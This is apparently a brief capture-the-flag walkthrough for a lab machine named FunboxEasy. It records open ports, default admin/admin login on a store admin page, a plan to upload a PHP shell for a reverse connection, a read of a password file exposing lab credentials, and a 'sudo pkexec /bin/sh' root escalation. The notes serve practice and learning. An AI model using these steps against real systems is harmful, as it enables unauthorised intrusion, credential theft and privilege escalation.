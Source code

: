 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# FunboxEasy
# 26/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


http://192.168.62.111/store/admin.php
admin
admin


upload php shell as book and take reverse connection
http://192.168.62.111/store/bootstrap/img/

cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
sudo pkexec /bin/sh
